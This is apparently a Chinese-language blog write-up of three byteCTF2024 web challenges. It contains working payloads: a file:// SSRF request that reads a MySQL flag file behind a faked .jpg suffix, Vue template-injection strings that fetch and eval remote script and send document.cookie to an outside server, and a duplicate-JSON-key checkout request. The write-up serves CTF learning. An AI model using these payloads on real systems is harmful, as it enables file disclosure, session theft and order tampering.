

+++
title = "byteCTF2024"
slug = "bytectf2024"
description = ""
date = "2024-09-22T21:15:25"
lastmod = "2024-09-22T21:15:25"
image = ""
license = ""
categories = ["赛题"]
tags = ["xss", "vue"]
+++

# 0x01 前言

感谢师傅发来的一份WP让我有动手操练的机会

# 0x02 question

## OnlyBypassMe

进入之后找到修改头像的部分，利用`file`协议读取

**mysql常用文件后缀**

- **.ibd**：InnoDB 表的独立表空间文件。
- **.frm**：表的定义文件。
- **.MYD** 和 **.MYI**：MyISAM 表的数据和索引文件。
- **ibdata1**：系统表空间文件。
- **.opt**：数据库的选项和配置信息。
- **.trn** 和 **.trg**：触发器的相关信息。
- **.isl**：InnoDB 表的导入和导出文件。
- **.sql**：SQL 脚本文件。
- **.err**：错误日志文件。
- **.pid**：MySQL 服务器进程的 PID 文件。
- **.cnf**：MySQL 服务器的配置文件。

**MySQL常用目录**(借用别的师傅总结的)

| Variable_name                           | Value                      |
| --------------------------------------- | -------------------------- |
| basedir                                 | /usr                       |
| binlog_direct_non_transactional_updates | OFF                        |
| character_sets_dir                      | /usr/share/mysql/charsets/ |
| datadir                                 | /var/lib/mysql/            |
| ignore_db_dirs                          |                            |
| innodb_data_home_dir                    |                            |
| innodb_log_group_home_dir               | ./                         |
| innodb_max_dirty_pages_pct              | 75                         |
| innodb_max_dirty_pages_pct_lwm          | 0                          |
| innodb_undo_directory                   | .                          |
| lc_messages_dir                         | /usr/share/mysql/          |
| plugin_dir                              | /usr/lib/mysql/plugin/     |
| slave_load_tmpdir                       | /tmp                       |
| tmpdir                                  | /tmp                       |

```
POST /api/v1/users/updateAvatarV1  HTTP/1.1
Host: 5bb30c3c.clsadp.com
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: JSESSIONID=1072184E7D30CC96E0FC1CE1035C26F4
Connection: close
Content-Type: application/json
Content-Length: 58

{
"url": "file:///var/lib/mysql/byteCTF/flag.ibd#.jpg"
}
```

利用`#`,伪造后缀`jpg`读取`flag`,其实这个在zip协议的时候早就有使用过,当时为了文件能够正常解析`zip`文件中的恶意文件,使用这个`%23`来代替`#`,不然的话是无法正常解析的，来两个例子看看

HTTP请求不包括`#`，改变`#`不触发网页重载，但会改变浏览器的访问历史
`#`是用来指导浏览器动作的，对服务器端完全无用，所以HTTP请求中不包括`#`。比如，访问下面的网址，`http://www.example.com/index.html#print`，浏览器实际发出的请求是这样的：

```
 GET /index.html HTTP/1.1
 Host: www.example.com
```

`#`后面的内容不会被发送到服务器端
在第一个`#`后面出现的任何字符都会被浏览器解读为位置标识符，这些字符都不会被发送到服务器端。
比如，下面URL的原意是指定一个颜色值：`http://www.example.com/?color=#fff`，但是浏览器实际发出的请求是：

```
 GET /?color= HTTP/1.1
 Host: www.example.com 
```

**但是这样子确确实实是可以达到某些目的的，比如这次的后缀限定成功绕过了**

## CrossVue

vue的SSTI注入

```go
if !profileRegex.MatchString(registerInfo.Profile) {
		c.JSON(http.StatusBadRequest, gin.H{"error": "Profile must not exceed 80 characters."})
		return
	}
```

这里说了不准超过80个字符，://emm

而且不能够出现`<>`这些被转义的字符




```
{{fetch('http://27.25.151.48:51008/').then(t=>t.text()).then(eval)}}
```

成功打出回显

```shell
root@dkcjbRCL8kgaNGz:~# nc -lvnp 51008
Listening on 0.0.0.0 51008
Connection received on 171.218.218.235 52998
GET / HTTP/1.1
Host: ip:51008
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.0.0 Safari/537.36
Accept: */*
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Origin: http://e2111211.clsadp.com
Referer: http://e2111211.clsadp.com/
```

但是查阅一下网上的发现当前后端分离时，是需要跨域请求的，那么我们配置一个

```
location / {
                # 允许任意源
                add_header 'Access-Control-Allow-Origin' '*';

                # 允许的请求方法
                add_header 'Access-Control-Allow-Methods' 'GET, POST, OPTIONS';

                # 允许的请求头
                add_header 'Access-Control-Allow-Headers' 'Origin, X-Requested-With, Content-Type, Accept, Authorization';

                # 预检请求（OPTIONS 方法）的处理
                if ($request_method = 'OPTIONS') {
                        add_header 'Access-Control-Max-Age' 1728000;
                        add_header 'Content-Type' 'text/plain charset=UTF-8';
                        add_header 'Content-Length' 0;
                        return 204;
                }
                # First attempt to serve request as file, then
                # as directory, then fall back to displaying a 404.
                try_files $uri $uri/ =404;
        }
```

测试一下是否配置成功

```
root@dkcjbRCL8kgaNGz:/etc/nginx/sites-available# curl -H "Origin: http://baidu.com" -I http://27.25.151.48:12138/
HTTP/1.1 200 OK
Server: nginx/1.18.0 (Ubuntu)
Date: Sun, 22 Sep 2024 21:16:39 GMT
Content-Type: text/html
Content-Length: 612
Last-Modified: Sat, 31 Aug 2024 08:40:12 GMT
Connection: keep-alive
ETag: "66d2d6ec-264"
Access-Control-Allow-Origin: *
Access-Control-Allow-Methods: GET, POST, OPTIONS
Access-Control-Allow-Headers: Origin, X-Requested-With, Content-Type, Accept, Authorization
Accept-Ranges: bytes
```

然后这样子肯定是不能完全获得`flag`的，那么我们在`vps`上面还要再写一个`js`

```js
fetch('/admin')
    .then(r=>r.text())
    .then(t=>t.match(/<h1>(.*?)<\/h1>/)[1])
    .then(flag=>fetch('http://27.25.151.48:12138/?q=')+flag,{'no-cors':true})
```

那么修改一下`payload`

```
{{fetch('http://27.25.151.48:12138/index.js').then(t=>t.text()).then(eval)}}
```

但是这样子的话，我在想怎么处理回显的问题，怎么去看呢，后来交流知道了要不直接在`SSTI`里面插入`xss`来打

```
{{eval('document.location=\"http://27.25.151.48:9999/?a=\"+document.cookie')}}
```

那么拿到`cookie`登录即可

## ezoldbuddy

nginx解析问题，当有重复键的时候，会有解析的问题，从而导致了漏洞

不同的后端会有不同的解析，这里的话是后面的覆盖前面的

借用师傅的包

```
POST /shopbytedancesdhjkf/cart/checkout HTTP/1.1
Host: 113.201.14.253:38180
Content-Length: 49
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36
(KHTML, like Gecko) Chrome/128.0.0.0 Safari/537.36
Content-Type: application/json
Accept: */*
Origin: http://113.201.14.253:61868
Referer: http://113.201.14.253:61868/shopbytedancesdhjkf%E2%80%A6
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,mg;q=0.7
Connection: close

{"orderId":1,"cart":[{"id":9,"qty":0,"qty":101}]}
```

# 0x03 小结

爆零有时候不一定是坏事？！没错学到了(以上题目均为浮现)

非常感谢给我WP的师傅，虽然有些看不懂(但是一来就看懂了，怎么进步呢)

非常感谢回答我问题的所有师傅
